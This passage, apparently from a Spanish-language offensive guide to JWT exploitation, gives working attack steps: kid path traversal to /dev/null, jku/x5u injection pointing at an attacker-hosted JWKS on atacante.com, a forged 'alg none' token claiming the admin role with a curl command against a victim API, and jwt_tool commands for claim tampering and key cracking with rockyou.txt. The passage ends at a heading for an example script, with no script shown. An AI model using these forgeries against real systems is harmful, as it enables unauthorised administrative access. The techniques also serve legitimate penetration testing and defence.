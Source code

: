 ```json
{ ..., "kid": "../../../../../../dev/null", ... }
```

- Firma el JWT con una string vacía. Si el sistema valida, confirma path traversal.
- Intenta inyección SQL si el valor del `kid` es usado en consultas.

6. **jwk/jku/x5u injection**
   - Agrega `jwk` en header firmado por clave privada propia.
   - Establece `jku` o `x5u` a `https://atacante.com/jwks.json` y publica la key pública coincidente.
   - Firma el token con tu clave y revisa si el backend lo acepta.

**Ejemplo PoC manual**
Para “none”:

```
Header: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0
Payload: eyJ1c2VyIjoidmljdGltYS5jb20iLCJyb2xlIjoiYWRtaW4ifQ
JWT: eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoidmljdGltYS5jb20iLCJyb2xlIjoiYWRtaW4ifQ.
```

Envía con curl:

```
curl -H "Authorization: Bearer <jwt>" https://victima.com/api/privado
```

---

## PoC Automatizada

**Automatización con jwt-tool (Python):**

```bash
jwt_tool attacker.com.jwt -I -p 'role=admin' -S 'none'
jwt_tool attacker.com.jwt -C -w ~/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

**Automatización con Burp Suite:**

- Usa Intruder para automatizar fuerza bruta de claves.
- Usa macros para automatizar reenvíos con headers manipulados.

---

## Explotación y Automatización

### Variantes y bypass

- **Race Condition:** Automatiza ataques concurrentes reusando tokens si la app es vulnerable.
- **Cambio de algoritmo:** Cambia entre RS256/HS256 para confusión si la implementación acepta ambos.
- **Inyección JWK/JKU/X5U:** Utiliza un JWKS público hospedado en atacante.com.
- **kid traversal:** Prueba rutas inusuales o archivos accesibles en la máquina víctima.

**Ejemplo script útil:**

